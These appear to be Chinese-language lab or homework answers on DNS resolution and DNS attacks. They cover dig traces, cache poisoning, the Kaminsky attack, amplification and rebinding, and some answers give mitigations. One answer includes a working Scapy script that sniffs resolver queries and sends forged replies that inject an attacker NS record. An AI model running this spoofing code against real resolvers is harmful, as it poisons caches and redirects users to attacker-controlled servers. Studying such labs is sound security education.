# DNS



在 `/etc/hosts` 里面添加映射 `127.0.0.1 myhost` 即可

***





可以看到 nsf.gov 这个域名由 ns1.nsf.gov., ns2.nsf.gov, ns3.nsf.gov 三台权威域名服务器共同负责

***



DNS 一般使用的是 UDP 协议（也有 TCP 协议），53 端口

***



使用命令 `dig +tcp www.example.com` 并抓包可以得到：



说明 DNS 也可以通过 TCP 建立连接来实现

***



根据上面的结果可以得到，首先会去询问 `.com` 的服务器 `a.gtld-servers.net.`，然后继续查询：



会得到 `example.com` 的服务器 `hera.ns.cloudflare.com.`，继续查询：



最终得到 `www.example.com` 的 IP 地址

***



查询 `34.216.184.93.in-addr.arpa PTR` 即可，首先问根服务器：



得到服务器 `a.in-addr-servers.arpa.`，继续查询：



得到服务器 `ns3.lacnic.net.`，继续查询：



得到服务器 `ns1.edgecastcdn.net.`，最终查询但是网络不可达

***



本地 DNS 服务器之所以知道根服务器 IP，是因为它通常预置了 root hints file。这个文件里保存了根区权威服务器的名字和 IP；很多解析器软件会内置这份列表。

***



Transaction ID 和源端口

***



DNS 缓存投毒就是攻击者通过伪造回复，让递归解析器把伪造的 DNS 记录缓存起来。之后其他用户再查询同一域名时，解析器就会返回这个假结果。

****



DNS 容易被缓存投毒的根本原因主要有三点：

1. 传统 DNS 最初没有强身份认证，响应真假主要靠“是否像是对应查询的回复”来判断。
2. 早期很多实现只靠 16 位 Transaction ID，可以通过枚举来暴力匹配。
3. UDP 无连接，攻击者更容易伪造源地址并大量喷射伪造响应。

因此只要攻击者能在真响应到达前，发来“看起来匹配”的假响应，就可能骗过递归解析器。

***



(1) 远程对 DNS 服务器做缓存投毒，难点主要在于：

- 我们看不到解析器发出的查询内容；
- 我们不知道它这次的 Transaction ID 和源端口；
- 我们得在真正的权威响应回来之前抢先打中；

(2) Kaminsky 攻击的关键改进是：

- 不去反复投毒同一个已缓存名字，而是不断触发对随机子域名的查询，例如 aaaa1.example.com、aaaa2.example.com；
- 这样每次都强迫递归解析器向外发起新的迭代查询；
- 伪造的不是最终 A 记录本身，而是委派信息（NS 记录），目标是把 example.com 的权威服务器改成攻击者自己的；
- 一旦 NS 缓存被投毒，之后整个域下很多名字都能被攻击者伪造回答。

****



如果 Bob 只塞入 `www.example.com` 的 A 记录，攻击不会成功，因为 `.com` 不负责权威回答 `www.example.com` 的 A 记录。如果 Bob 塞入 `example.com` 的 NS 记录，可以控制权威域名服务器，那么就可以攻击成功。

***



```python
#!/usr/bin/env python3
from scapy.all import *
import sys

NS_NAME = "bank32.com"

def spoof_dns(pkt):
  if (DNS in pkt and NS_NAME in pkt[DNS].qd.qname.decode('utf-8')):
    print(pkt.sprintf("{DNS: %IP.src% --> %IP.dst%: %DNS.id%}"))

    ip = IP(dst = pkt[IP].src, src = pkt[IP].dst)
    udp = UDP(dport = pkt[UDP].sport, sport = 53)
    Anssec = DNSRR(rrname = pkt[DNS].qd.qname, type = 'A', rdata = '1.2.3.4')
    NSsec = DNSRR(rrname = 'example.com', type = 'NS', rdata = 'ns.bob.com')
    dns = DNS(id = pkt[DNS].id, qd = pkt[DNS].qd, aa = 1, qr = 1, ns = NSsec, an = Anssec)
    spoofpkt = ip/udp/dns
    send(spoofpkt)


myFilter = "udp and (src host DNS_resolver and dst port 53)"
pkt=sniff(iface='bridge', filter=myFilter, prn=spoof_dns)
```

****



不可以，首先 `ns.ARandomName.net` 和当前委派区域没关系，所以 Additional section 的不会被接受，那么就可能无法通过 `ns.ARandomName.net` 去解析

***



会影响到 Kaminsky 攻击，如果失败了，那么就得等 20 分钟，会大大降低 Kaminsky 攻击成功的效率

***



`example.net.` 和 `ns.tklp-server.net` 以及 `ns.atfz-server.com` 的记录不会被缓存，因为它们跟查询的 `www.example.com` 都无关

***



作为外部攻击者，我可以控制一个 IP 地址，然后给它配置反向 PTR 为 attacker.example.com，使得反向做 reverse lookup 的时候得到 example.com，错误放行（应该再做一次正向查询，比对是否与原 IP 一致）

***



根服务器利用 Anycast 提升可扩展性的方法是：全球很多不同地点的服务器实例，共享同一个根服务器 IP 地址。这样用户发往某个根服务器 IP 的流量，会被 BGP 路由到“最近”或代价最低的那个实例。有以下优点：

1. 分担负载：查询请求会自然分散到各地实例，不必全压到少数机器上。
2. 提高抗 DDoS 能力：攻击流量也会被摊到多个站点，不容易单点打垮。
3. 提高可用性与时延表现：本地或邻近站点可直接应答，延迟更低；单个站点出故障，流量还能被路由到别处。

***



- 使用 IP Anycast 分布权威 DNS；
- 部署多个、地理分散的权威服务器；
- 让 NS 分布在不同网络和自治系统；
- 限制大响应、关闭不必要服务，避免被滥用于放大攻击；

***



- 做广泛 Anycast，把实例部署到多个国家/运营商/CDN/云；
- 和国际上有能力的组织合作托管镜像节点；
- 准备离线/本地根区副本或本地镜像；
- 多自治系统、多运营商接入，避免被单一路由卡死；

****



DNS amplification attack 的基本思路是：攻击者伪造源 IP 为受害者，向开放递归 DNS 服务器发送很小的查询；这些服务器会把更大的响应发给受害者，于是攻击流量被放大。攻击原因：

- 查询包很小，响应包可能很大；
- 攻击者可同时利用大量开放递归服务器；

典型条件：

1. 存在可从外网递归查询的开放递归 DNS 服务器；
2. 网络允许 IP 源地址伪造；
3. 攻击者选用响应远大于查询的请求类型。

缓解办法包括：

- 关闭开放递归，只允许授权客户端递归；
- 做源地址反欺骗；
- 限制异常大响应、速率限制、监控异常查询。

***



IoT 设备只在受害者本地网络里可达，从外部无法直接访问内部的 IoT 设备

***



在第二次访问的时候，恶意 DNS 权威服务器会将网址解析为内网 IoT 设备的 IP，从而绕过同源检查

***



攻击一般不会成功，因为 DNS 重绑定的核心就是让同一个主机名在短时间内先解析到攻击者服务器获取 Javascript 代码，再重新解析到目标内网 IP 进行访问
